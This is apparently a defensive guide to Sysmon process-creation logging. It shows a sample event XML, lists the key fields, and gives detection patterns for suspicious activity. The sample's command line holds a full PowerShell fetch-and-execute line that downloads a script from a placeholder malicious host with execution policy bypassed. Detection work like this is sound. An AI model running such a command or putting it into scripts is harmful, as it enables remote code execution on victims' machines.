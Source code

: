 ### Critical Sysmon Event Types

#### Event ID 1 - Process Creation

**Enhanced Process Monitoring**:
```xml
<Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
  <s>
    <Provider Name="Microsoft-Windows-Sysmon" Guid="{5770385F-C22A-43E0-BF4C-06F5698FFBD9}"/>
    <EventID>1</EventID>
    <TimeCreated SystemTime="2023-10-15T09:30:45.123456Z"/>
    <Computer>WORKSTATION01.corp.com</Computer>
  </s>
  <EventData>
    <Data Name="RuleName">-</Data>
    <Data Name="UtcTime">2023-10-15 09:30:45.123</Data>
    <Data Name="ProcessGuid">{12345678-1234-1234-1234-123456789012}</Data>
    <Data Name="ProcessId">1234</Data>
    <Data Name="Image">C:\Windows\System32\powershell.exe</Data>
    <Data Name="FileVersion">10.0.19041.1 (WinBuild.160101.0800)</Data>
    <Data Name="Description">Windows PowerShell</Data>
    <Data Name="Product">Microsoft® Windows® Operating System</Data>
    <Data Name="Company">Microsoft Corporation</Data>
    <Data Name="OriginalFileName">PowerShell.EXE</Data>
    <Data Name="CommandLine">powershell.exe -ExecutionPolicy Bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://malicious.com/script.ps1')"</Data>
    <Data Name="CurrentDirectory">C:\Users\admin\</Data>
    <Data Name="User">CORP\admin</Data>
    <Data Name="LogonGuid">{12345678-1234-1234-1234-123456789012}</Data>
    <Data Name="LogonId">0x25a04e</Data>
    <Data Name="TerminalSessionId">1</Data>
    <Data Name="IntegrityLevel">High</Data>
    <Data Name="Hashes">MD5=5B6CE5B3025C74F7F8F73B0C8C4A3E1F,SHA256=7A8E7B92F3C...</Data>
    <Data Name="ParentProcessGuid">{12345678-1234-1234-1234-123456789012}</Data>
    <Data Name="ParentProcessId">2345</Data>
    <Data Name="ParentImage">C:\Windows\System32\cmd.exe</Data>
    <Data Name="ParentCommandLine">cmd.exe /c malicious.bat</Data>
    <Data Name="ParentUser">CORP\admin</Data>
  </EventData>
</Event>
```

**Key Fields for Security Analysis**:
- **CommandLine**: Complete command execution including parameters and arguments
- **ParentImage/ParentCommandLine**: Process ancestry for attack chain reconstruction
- **Hashes**: File integrity verification and malware identification
- **IntegrityLevel**: Process privilege level and UAC context
- **LogonGuid**: Session correlation across multiple events

**Suspicious Pattern Detection**:
```
Attack Pattern Examples:
├── PowerShell execution policy bypass: -ExecutionPolicy Bypass
├── Base64 encoded commands: -EncodedCommand [base64_string]
├── Download and execute: IEX (New-Object Net.WebClient).DownloadString
├── Living-off-the-land binaries: certutil, bitsadmin, regsvr32
└── Process injection indicators: rundll32, regsvr32 with unusual parameters
```
